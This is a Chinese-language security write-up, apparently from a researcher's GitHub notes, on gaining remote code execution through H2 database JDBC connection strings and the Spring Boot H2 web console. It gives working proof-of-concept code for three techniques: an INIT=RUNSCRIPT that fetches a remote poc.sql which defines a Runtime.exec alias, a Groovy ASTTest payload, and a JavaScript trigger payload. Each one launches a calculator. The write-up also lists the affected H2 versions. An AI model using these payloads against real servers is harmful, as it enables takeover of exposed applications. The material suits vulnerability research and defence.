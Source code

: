 # H2-RCE

<center>@Y4tacker</center>

首先在SpirngBoot当中如果开启了也可以通过网页直接实现rce，当然需要开启参数

```xml
spring.h2.console.enable=true
spring.h2.console.setting.web-allow-others=true
```

![](img/1.png)

接下来分别介绍三种

## 通过加载执行远程sql

在org.h2.engine.Engine#openSession(org.h2.engine.ConnectionInfo)中,h2引擎将 "INIT "参数分割开来，并使用CommandInterface的不同实现类来初始化数据库连接，这取决于配置。

![](img/2.png)

通过使用RUNSCRIPT命令，h2最终会调用org.h2.command.dml.RunScriptCommand#execute来执行恶意的sql语句。

![](img/3.png)

```java
Class.forName("org.h2.Driver");
String connectionUrl = "jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:8001/poc.sql'";
Connection connection = DriverManager.getConnection(connectionUrl);
connection.close();
```

Poc.sql

```java
CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd);return "y4tacker";}';CALL EXEC ('open -a Calculator.app')
```

那么为什么我们使用 "RUNSCRIPT "命令？因为我们使用的POC需要执行两条SQL语句，第一条是CREATE ALIAS，第二条是EXEC，这是一个两步的动作。然而session.prepareCommand不支持多条SQL语句的执行，所以我们使用RUNSCRIPT来从远程服务器加载SQL。

![](img/4.png)

## 配合Groovy

在org.h2.util.SourceCompiler#getClass中，h2使用isGroovySource来确定它是否是groovy源代码![](img/5.png)



```java
private static boolean isGroovySource(String var0) {
  return var0.startsWith("//groovy") || var0.startsWith("@groovy");
}
```
利用
```java
Class.forName("org.h2.Driver");
String groovy = "@groovy.transform.ASTTest(value={" + " assert java.lang.Runtime.getRuntime().exec(\"calc\")" + "})" + "def x";
String url    = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE ALIAS T5 AS '" + groovy + "'";
```

但是也不是每个项目都有Groovy，这时候可以使用js执行命令


```
	public static void main(String[] args) throws Exception {
		Class.forName("org.h2.Driver");

		String url = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER shell3 BEFORE SELECT ON\n" +
				"INFORMATION_SCHEMA.TABLES AS $$//javascript\n" +
				"java.lang.Runtime.getRuntime().exec('open -na Calculator')\n" +
				"$$\n";		Connection conn = DriverManager.getConnection(url);
		conn.close();
	}
```

但是也是似乎有版本限制，我测试这是最低的限制

```
<dependency>
<groupId>com.h2database</groupId>
<artifactId>h2</artifactId>
<version>1.4.196</version>
</dependency>
```



## 关于报错

关于H2 数据库报错 Database "XXX" not found, and IFEXISTS=true, so we cant auto-create it [90146] 的解决办法

可以在[spring boot - Database not found, and IFEXISTS=true, so we cant auto-create it - Stack Overflow](https://stackoverflow.com/questions/55349373/database-not-found-and-ifexists-true-so-we-cant-auto-create-it)找到答案

Use a pre-2019 version of the `H2` database dependency that auto-creates the database every time you run your standalone application. For example version `1.4.193`. Your `pom.xml` should include this dependency:

```
<dependency>
        <groupId>com.h2database</groupId>
        <artifactId>h2</artifactId>
        <version>1.4.193</version>
</dependency>
```


